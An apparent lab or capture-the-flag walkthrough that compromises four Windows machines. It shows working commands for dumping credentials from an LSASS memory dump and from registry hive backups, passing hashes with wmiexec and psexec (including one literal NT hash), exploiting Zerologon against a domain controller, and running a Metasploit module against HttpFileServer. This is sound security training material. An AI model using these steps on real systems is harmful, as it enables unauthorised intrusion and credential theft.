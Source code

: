 ﻿# Windows LAB 1

### Machine 1
After making a quick  port scan with nmap:

    nmap -Pn <target_ip>
![](https://i.ibb.co/6H8pkPh/Screen-Shot-2022-12-29-at-9-23-03-AM.png)
We can see that there is some opened ports, including an 80 http port.
So we go to our browser to check it out.
![enter image description here](https://i.ibb.co/Vm5gJJt/Screen-Shot-2022-12-29-at-9-29-03-AM.png)
After accessing the address, we see an enumeration of a directory and two other files, we enter to the dumps directory and there it is:
![](https://i.ibb.co/wcpHG80/Screen-Shot-2022-12-29-at-9-32-25-AM.png)An interesting files ```lsass.DMP``` that can be very helpful to find some hashes or passwords, so we click on it to download and go to our terminal to see if there is anything we can do.

First what is ```Lsass```:

> The Local Security Authority Subsystem Service (LSASS) is a process in
> Microsoft Windows operating systems that is responsible for enforcing
> the security policy on the system, such as verifying users during
> users logons and password changes.

And LSASS.DMP is a file that is created when the (LSASS) process on Windows system crashes. When it crashes, it generates a memory dump file that contains information about the state of the system at the time of the crash, like we said users logons and password changes.
So if we are lucky enough, we can find some NTLM hashes or any plain text password.
To extract the informations from the file we used a tool called ```pypykatz```, so we type our command:

    pypykatz lsa minidump lsass.DMP
![enter image description here](https://i.ibb.co/52PyX1T/Screen-Shot-2022-12-29-at-10-08-58-AM.png)
There it is an NT hash for an Administrator user, so let's sign in with this username and NT hash using wmiexec.py

     wmiexec.py -hashes :78f9261c7b0f08bd9a3b3b13340e4c2a Administrator@<targer_ip>
![enter image description here](https://i.ibb.co/BNnPpk6/Screen-Shot-2022-12-29-at-10-15-12-AM.png)
There it is we got access successfully, now we just need to look for our flag that i found in C:\Users\Administrator\Desktop.

### Machine 2

First thing we do a quick port enumeration with nmap:

    nmap -Pn 172.16.4.161

![enter image description here](https://i.ibb.co/0JZy77D/Screen-Shot-2022-12-29-at-10-39-19-AM.png)Nothing special here, what we can do is to look for any opened shares in this machine, to list the shares we use

    smbclient -L <target_ip>
![enter image description here](https://i.ibb.co/7V9Q4Q3/Screen-Shot-2022-12-29-at-10-43-36-AM.png)We can see that there is 4 different shares, but there is one that we can access without credentials, it's the backup share.
So we access it with ```smbclient```

    smbclient \\\\<target_ip>\\Backup
We press enter for the password and we are in, we try ```ls``` to enumerate if there is any files.
![enter image description here](https://i.ibb.co/882ZqZG/Screen-Shot-2022-12-29-at-10-49-08-AM.png)We try to download the files with the get command, ```get <file>```.

The SAM.SAVE, SYSTEM.SAVE, and SECURITY.SAVE files are all related in that they are backup copies of system-level registry hives on a Windows system.

The SAM.SAVE file is a backup copy of the Security Account Manager (SAM) registry hive, which contains information about user accounts on the system, including user names, passwords, and security identifiers (SIDs).

The SYSTEM.SAVE file is a backup copy of the SYSTEM registry hive, which contains important system-level configuration information, including information about device drivers, system services, and other system components.

The SECURITY.SAVE file is a backup copy of the SECURITY registry hive, which contains security-related information for the system, including access control lists (ACLs) and security policies.

To dump some informations from this files we use ```secretsdump.py```

    secretsdump.py -sam sam.save -system system.save -security security.save LOCAL

SecretsDump should extract information from the SAM.SAVE, SYSTEM.SAVE, and SECURITY.SAVE files and that it should perform the extraction locally on the system where the command is being run.

![enter image description here](https://i.ibb.co/JFgSTyS/Screen-Shot-2022-12-29-at-11-35-00-AM.png)There it is, the NTLM hash of The Administrator user, so now we gonna try to get a shell using this hash with psexec.

    psexec.py -hashes <NTLM_Hash> <user>@<target_ip> cmd.exe

![enter image description here](https://i.ibb.co/VY3nVkP/Screen-Shot-2022-12-29-at-11-42-42-AM.png)And congratulation we got the shell, now go and find your flag.

### Machine 3

For this machine, i tried to test the Zerologon vulnerability.
First, we need to test if this machine is vulnerable to Zerologon, to test it, we can use a script that you can find here: [Zerologon_tester](https://github.com/SecuraBV/CVE-2020-1472)
So we run the script :

    python3 zerologon_tester.py DC-NAME <target_ip>
   
We can get the DC-NAME or Domain Controller name, with an nmap scan:

    nmap -A -Pn <target_ip>
![enter image description here](https://i.ibb.co/r2F4y6n/Screen-Shot-2022-12-29-at-1-14-32-PM.png)And the Name is ```SRV-DC1```, so now we run the script:
![enter image description here](https://i.ibb.co/QmT3Gry/Screen-Shot-2022-12-29-at-1-17-21-PM.png)
So it can be exploit it, now to use it we gonna run this script: [Zerologon_exploit](https://github.com/risksense/zerologon)
The command gonna look like this:

    python3 set_empty_pw.py <DC-NAME> <target_ip>
   
![enter image description here](https://i.ibb.co/yYWR0RL/Screen-Shot-2022-12-29-at-1-31-40-PM.png)
That was successful now we gonna dump the hashes with ```secretsdump.py```

    secretsdump.py -just-dc <DC-NAME>\$@<target_ip>

We can grep the Administrator hash directly:

![enter image description here](https://i.ibb.co/VNn9Y6k/Screen-Shot-2022-12-29-at-1-41-33-PM.png)
And there it is, now we can log as Administrator using the NTLM hash with ```psexec.py```:

    psexec.py -hashes <NTLM_Hash> <user>@<target_ip> cmd.exe

![enter image description here](https://i.ibb.co/ynLYSPT/Screen-Shot-2022-12-29-at-1-45-14-PM.png)
Here we go, you can search for the flag.

### Machine 4

First of all, we start with out nmap scan

    nmap -A -Pn <target_ip>

We found an http port used by HttpFileServer httpd 2.3, we do a quick google search and we found this article, that gonna help us getting a remote command execution, you can find it here : [Article
](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/windows/http/rejetto_hfs_exec)
Now we gonna our metasploit console to use ``exploit/windows/http/rejetto_hfs_exec``, we set the target host using ```set RHOSTS <target_ip>``` and  run exploit, There it is we got a shell

![enter image description here](https://i.ibb.co/fCmRD9F/Screen-Shot-2022-12-29-at-2-21-36-PM.png)So you should find the flag now.
